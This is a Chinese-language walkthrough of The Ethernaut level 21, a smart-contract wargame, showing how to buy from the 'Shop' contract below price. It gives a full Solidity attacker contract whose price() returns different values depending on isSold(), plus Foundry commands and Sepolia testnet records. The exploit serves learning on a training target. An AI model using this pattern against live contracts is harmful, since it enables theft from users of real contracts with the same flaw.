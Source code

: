 # Level 21

[The Ethernaut level 21](https://ethernaut.openzeppelin.com/level/21)

这一关的目的是以低于要求的价格从商店购买物品。合约中也没有实际支付，只是概念上的支出。

仔细阅读合约，`Shop` 合约定义了一个 `Buyer` 接口，但没有具体的实现。在 `buy` 函数中依赖了一个 `Buyer` 实例，且这个实例还是由 `msg.sender` 初始化的，即 `shop` 合约要求使用一个 `Buyer` 合约去购买(`buy`)，因此可以从这里做文章。

只要自己部署一个实现 `Buyer` 接口的合约，`price()` 根据不同状态返回不同的值。比如，当商品已售卖，返回1；商品未售卖，返回100（>=100）。

攻击者合约：
```
contract Attacker is Buyer {
    Shop level;

    constructor(address level_) {
        level = Shop(level_);
    }

    function price() external view returns (uint256) {
        return level.isSold() ? 1 : 100;
    }

    function attack() external {
        level.buy();
    }
}
```

执行脚本：
```
forge script script/Level21.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

完整代码见：[这里](../../ethernaut/script/Level21.s.sol)

查询购买后的 `price`：(返回 1)
```
cast call 0x217464Bcc60Ae344273201a91E6568486c3a07EA \
"price()(uint256)" \
--rpc-url sepolia
```

链上记录：
- [level(`Shop`)](https://sepolia.etherscan.io/address/0x217464Bcc60Ae344273201a91E6568486c3a07EA)
- [Attacker(Buyer)](https://sepolia.etherscan.io/address/0xFB817CF418A06D94219F678021858B5218A78d52)
- [attack 交易](https://sepolia.etherscan.io/tx/0x1d961778a5a88a5c5eb667f73f3db7a774f3d1af1fc5554935ddd9f91ac884c9)